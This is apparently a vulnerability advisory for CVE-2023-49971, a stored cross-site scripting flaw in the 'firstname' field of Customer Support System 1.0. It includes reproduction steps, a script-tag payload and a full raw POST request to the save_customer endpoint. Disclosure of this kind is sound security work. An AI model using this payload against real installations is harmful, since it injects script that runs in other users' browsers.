 # CVE-2023-49971
# Customer Support System 1.0 - Cross-Site Scripting (XSS) Vulnerability in "firstname" field/parameter on "customer_list" Page

**Description**: Customer Support System 1.0 is vulnerable to stored XSS. A XSS vulnerability exists in version 1 of the Customer Support System. A malicious actor can insert JavaScript code through the "firstname" field/parameter when editing/creating a customer. The code is executed whenever the page "/customer_support/index.php?page=customer_list" is visited.  

**Vulnerable Product Version**: Customer Support System 1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 28/11/2023  
**Confirmed on**: 19/12/2023  
**CVE**: CVE-2023-49971  
**Tested on**: Windows  
### Steps to reproduce:  
1. Log in to the application.  
2. Navigate to "/customer_support/index.php?page=customer_list" to edit an existing customer or "/customer_support/index.php?page=new_customer" to create a new customer.
3. Create or edit a customer and insert the malicious payload into the "firstname" field/parameter.  
4. Payload: </dt></b><script>alert(document.domain)</script>
### Resquest:
```
POST /customer_support/ajax.php?action=save_customer HTTP/1.1
Host: 192.168.68.148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------212391604122778812451614149575
Content-Length: 1149
Origin: http://192.168.68.148
Connection: close
Referer: http://192.168.68.148/customer_support/index.php?page=new_customer
Cookie: csrftoken=1hWW6JE5vLFhJv2y8LwgL3WNPbPJ3J2WAX9F2U0Fd5H5t6DSztkJWD4nWFrbF8ko; sessionid=xrn1sshbol1vipddxsijmgkdp2q4qdgq; PHPSESSID=abige9ar0b1bi3qcf9mkv258o3

-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="id"


-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="firstname"

teste</dt></b><script>alert(document.domain)</script>
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="middlename"


-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="lastname"

xss
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="contact"

210
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="address"

asdasd
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="email"

teste@teste.com
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="password"

xss
-----------------------------212391604122778812451614149575
Content-Disposition: form-data; name="cpass"

xss
-----------------------------212391604122778812451614149575--
```     

Discoverer(s)/Credits:   
Geraldo Alcântara
